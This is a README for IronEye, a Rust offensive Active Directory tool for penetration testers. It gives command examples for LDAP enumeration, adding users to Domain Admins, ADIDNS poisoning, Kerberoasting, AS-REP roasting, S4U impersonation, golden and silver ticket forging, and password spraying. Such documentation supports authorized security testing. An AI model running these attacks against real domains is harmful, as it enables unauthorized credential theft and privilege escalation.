

# IronEye

IronEye is a Rust-based Active Directory enumeration and security assessment tool designed for use in internal network environments. It enables penetration testers, red teamers, and security researchers to interact with LDAP, Kerberos, and SMB services efficiently.
The tool supports both password and Kerberos authentication, allowing for credentialed LDAP queries, password spraying, TGT requests, and more. This project was my first ever real tool development project in Rust to force myself to stay interested and learn the language. Most of this is likely not prime l33t coding, the most efficent, or 100% bug free. Feel free to add PRs or give me pointers for improvement or modules. Use at your own risk and I always recommend testing in a lab environment prior to any authorized client work. 

## Install and Compile
```bash
sudo apt install pkg-config libssl-dev
sudo apt install libclang-dev clang
sudo apt-get install libkrb5-dev
cargo build --release
target/release/ironeye
```


## Connect Module
Authenticate using password
```bash
-u tywin.lannister -p powerkingftw135 -d SEVENKINGDOMS.LOCAL -i 10.2.10.10
```
Authenticate using Kerberos to LDAPS

Get you a tgt however or use Cerberos module:
```bash
> ask-tgt -u domainuser -p password -i 10.2.20.3 -d redheadsec.local
[*] Requesting TGT for domainuser@redheadsec.local
[+] TGT saved to: ticket.ccache
[+] Success

> export ticket.ccache
[+] Exporting KRB5CCNAME to: ticket.ccache
[+] KRB5CCNAME environment variable set to: ticket.ccache
```


```bash
-u robb.stark -d NORTH.SEVENKINGDOMS.LOCAL -i WINTERFELL.NORTH.SEVENKINGDOMS.LOCAL -k -s
```
Connection Arguments:
```
-u <user> -p <password> -d <domain -i <FQDN/IP> [-s <ldaps>] [-t <timestamp>] [-k <Kerberos Auth>]
```





## Connect - Sub Modules


- **Get SID/GUID** - Get the SID/GUID of a domain object
- **From SID/GUID** - Find the CN/Name of a SID/GUID
- **Get SPNs** - Pull and export all domain SPNs
- **Get ACE/DACL** - Pull DACL for a given user
- **Query Groups** - Pull groups for a user or all user groups
- **Machine Quota** - Get the MAQ for the domain
- **Net Commands** - Net User/Group commands
- **Password Policy** - Pull the domain password poilicies including fine-grained ones
- **Deep-Queries** - Quereies for interesting domain assets or information
- **Custom Ldap** - Run a custom LDAP query
- **Actions** - Perform various actions via LDAP

 <br>


### Actions Module
Direct Active Directory object modification for post-exploitation scenarios through LDAP.

**Available Actions:**
- **Add Computer** - Create machine accounts (respects MAQ limits)
- **Delete Computer** - Remove machine accounts from domain
- **SPN Management** - List, add, or delete Service Principal Names
- **Add User to Group** - Modify group memberships
- **Set DONT_REQUIRE_PREAUTH** - Enable/disable AS-REP roasting flag
- **Enable Account** - Re-enable disabled accounts
- **Disable Account** - Disable user/computer accounts
- **DNS Management** - ADIDNS manipulation (detailed below)
- **Reconnect with Secure Connection** - Upgrade to LDAPS

**Example Usage:**
```bash
# Add computer for RBCD attacks
> Actions > Add Computer
> Computer name: EVILBOX
> Password: (leave empty for random)

# SPN Management
> Actions > SPN Management
> Target: serviceaccount
> Action: list/add/del
> SPN value: HTTP/webapp.corp.local

# Enable AS-REP roasting
> Actions > Set DONT_REQUIRE_PREAUTH
> Target: targetuser
> Enable: true

# Add to privileged group
> Actions > Add User to Group
> User: compromised.user
> Group: Domain Admins
```

**DNS Management (ADIDNS)**
Comprehensive Active Directory-Integrated DNS manipulation for poisoning and traffic redirection. Stripped down functionality of Dirk's dnstool.py. 

**Operations:**
- **Query DNS Zones** - Enumerate domain/forest zones
- **Query DNS Record** - Detailed record lookup
- **Add A Record** - Create new DNS entries
- **Modify A Record** - Redirect existing records
- **Remove (Tombstone)** - Mark inactive without deletion
- **Delete Record** - Permanent LDAP removal


---

**Using https://github.com/coffeegist/bofhound:**

Almost all output files are in a BofHound ingestiable format, meaning you can be targeted and pull just the data you need to graph in BloodHound or pull everything and have a pretty good picture of the whole network. Obviously not near as comprehensive as an collector, but also should be far less noisey.


## Cerberos Module
All credit for this goes to https://github.com/zer1t0/cerbero. I have simply ported to a local library. 

```bash
Cerberos Commands:
Available Now:
  ask-tgt -u <user> -p <pass> -d <domain> -i <dc_ip> [-o output.ccache] [--hash <hash>]
  ask-tgs -u <user> -p <pass> -d <domain> -i <dc_ip> -s <service> [-o output.ccache]
  ask-s4u2self -u <user> -p <pass> -d <domain> -i <dc_ip> --impersonate <user> [-o output.ccache]
  ask-s4u2proxy -u <user> -p <pass> -d <domain> -i <dc_ip> --impersonate <user> -s <service> [-o output.ccache]
  asreproast -d <domain> -i <dc_ip> -t <user|file> [-o output.txt] [--format hashcat|john]
  kerberoast -u <user> -p <pass> -d <domain> -i <dc_ip> -t <user:spn|file> [-o output.txt] [--format hashcat|john]
  convert -i <input> -o <output> [--format krb|ccache|auto]
  craft -u <user> --sid <sid> [--user-rid <rid>] [--password|--rc4|--aes256 <key>] [--groups <rids>] [-s <service>] [-o output.ccache] [--format ccache|krb]
  export /path/to/ccache  - Set KRB5CCNAME environment variable
  hash                    - Calculate Kerberos hashes from password

Examples:
  ask-tgt -u administrator -p Password123! -d contoso.local -i 192.168.1.10
  ask-tgs -u administrator -p Password123! -d contoso.local -i 192.168.1.10 -s ldap/dc01
  asreproast -d contoso.local -i 192.168.1.10 -t users.txt -o hashes.txt
  kerberoast -u administrator -p Password123! -d contoso.local -i 192.168.1.10 -t services.txt -o hashes.txt
  convert -i ticket.ccache -o ticket.krb
  convert -i ticket.kirbi -o ticket.ccache --format ccache
  craft -u contoso.local/administrator --sid S-1-5-21-123456789-987654321-111111111 --aes256 <KRBTGT key> (Golden Ticket)
  craft -u under.world/kratos --sid S-1-5-21-658410550-3858838999-180593761 --ntlm 29f9ab984728cc7d18c8497c9ee76c77 -s cifs/styx,under.world (Silver Ticket)
```


## User Enumeration / Password Spray Modules
User Enumeration:
```
Argument format: --userfile <path> --domain <domain> --dc-ip <ip> --output <filename> [--timestamp]
Example: --userfile users.txt --domain corp.local --dc-ip 192.168.1.10 --output results.txt --timestamp
```

Password Spray:
```
Argument format: --users <user/path> --passwords <pass/path> --domain <domain> --dc-ip <ip> [--threads <num>] [--jitter <ms>] [--delay <ms>] [--continue-on-success] [--verbose] [--timestamp] [--lockout-threshold <num>] [--lockout-window <seconds>]
Example: --users users.txt --passwords passwords.txt --domain corp.local --dc-ip 192.168.1.10 --jitter 10 --delay 10 --continue-on-success --verbose --timestamp  --lockout-threshold 5 --lockout-window 600
```


## Current / Future Development

| Feature           | Description                                  | Status   |
|------------------|----------------------------------|---------|
| Kerberos Auth   | Supports Kerberos-based authentication | ✅ Working (For Linux/Windows) - Does not work currently for MAC due to differences in dependencies
| Threading Support   | Threading for the password spray has not been implemented yet.       |  ✅ Implemented 08/24/25 |
| Proxy Support   | While native SOCKS support is desired, this tool works well with proxychains4/Proxifer so currently is on the back burner.       | ❌ TBD  |
| SMB Modules | Currently on the table but not under active implementation at this time   | ❌ TBD |
